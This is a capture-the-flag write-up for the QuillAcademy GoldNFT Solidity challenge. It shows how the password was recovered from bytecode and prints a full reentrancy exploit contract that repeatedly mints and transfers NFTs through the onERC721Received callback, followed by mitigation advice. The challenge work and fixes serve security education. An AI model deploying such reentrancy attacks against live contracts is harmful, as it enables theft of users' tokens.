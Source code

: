 # GoldNFT by QuillAcademy

# Description
You are a magician, Just wave your wand and magically bypass the password required to mint these NFTs.

# Objective of CTF
Retrieve the password from IPassManager and mint at least 10 NFTs.

# Hacking Process
Reverse engineered the bytecode provided in the etherscan by;
 - Downloading/Exporting function signatures provided by the [openchain api](https://openchain.xyz/signatures)
 - Loop through the downloded function signatures and compared with those found in the bytcode by making requests against the [etherface api](https://api.etherface.io)
 - Printed out the possible matches found in the bytecode

Here is a snapshot of the result
<img width="1007" alt="Screenshot 2023-03-31 at 16 57 55" src="https://user-images.githubusercontent.com/26023424/229170906-1f40baff-deb0-4f05-bfa1-e2425d377b6f.png">

 - The set function accepts a bytes32 and a boolean
 - The read function implemented in the GoldNFT contract accepts a bytes32

So by calling `set(bytes32,bool)`, we are able to set the bytes32 to a valid data type and also set the boolean to true

# Vulnerability Detail
The _safeMint function called at https://github.com/pasDamola/QuillCTF-Gold-NFT/blob/88d92f7b9974de71c52bf5e94258adc0348ae0b8/contracts/GoldNFT.sol#L24 triggers the inherited https://github.com/OpenZeppelin/openzeppelin-contracts/blob/7e7060e00e107460fc57c178859d3cf0c6ac64ef/contracts/token/ERC721/ERC721.sol#L247 which in turn triggers a callback to the destination address. 

So a malicious contract can take advantage of this in this way;
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGoldNFT {
    function takeOneNFT(bytes32 password) external;
    function transferFrom(address from, address to, uint256 tokenId) external;
}
contract StealGoldNFTs {
    IGoldNFT nfts;
    address owner;
    uint constant TOTAL_AMOUNT_TO_STEAL = 10;
    // bytes32 password
    bytes32 constant password = 0x70617373776f7264000000000000000000000000000000000000000000000000;
    constructor(address _apesAddress) {
        nfts = IGoldNFT(_apesAddress);
        owner = msg.sender;
    }

    function attack() external {
        nfts.takeOneNFT(password);
    }

    function onERC721Received(
        address _sender, address _from, uint256 _tokenId, bytes memory _data)
        external returns (bytes4 retval) {
        
        require(msg.sender == address(nfts), "incorrect address");
        nfts.transferFrom(address(this), owner, _tokenId);

        if(_tokenId <= TOTAL_AMOUNT_TO_STEAL)  {
            nfts.takeOneNFT(password);
        }

        return StealGoldNFTs.onERC721Received.selector;
    }

}
```



The contract then goes on to update the `minted` variable to true after the external call is made. This allows for re-entrancy attack

# Impact
All the gold nfts in the contract could be minted out by this malicious attack

# Recommendation
 - Reset `minted` variable to true before making the `_safeMint()` call. This follows the Check-Effects-Interaction pattern recommended as a best practice
 - We can also use the `noReentrant` modifier on the `takeOneNFT()` provided by Openzeppelin standard library


